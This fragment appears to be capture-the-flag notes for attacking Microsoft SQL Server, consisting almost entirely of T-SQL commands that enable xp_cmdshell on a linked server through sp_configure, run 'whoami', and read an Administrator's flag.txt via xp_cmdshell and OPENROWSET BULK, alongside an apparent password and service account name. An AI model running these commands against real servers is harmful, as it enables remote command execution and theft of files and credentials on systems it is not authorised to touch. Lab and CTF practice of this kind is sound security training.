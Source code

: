 
EXECUTE ('EXEC xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt''')

princess1 mssqlsvc

```
EXECUTE('
EXEC sp_configure ''show advanced options'', 1;
RECONFIGURE;
EXEC sp_configure ''xp_cmdshell'', 1;
RECONFIGURE;
EXEC xp_cmdshell ''whoami''
 ') AT [LOCAL.TEST.LINKED.SRV];
 go
```



 SELECT * FROM OPENROWSET(BULK N'c:\users\administartor\desktop\flag.txt', SINGLE_CLOB) AS Contents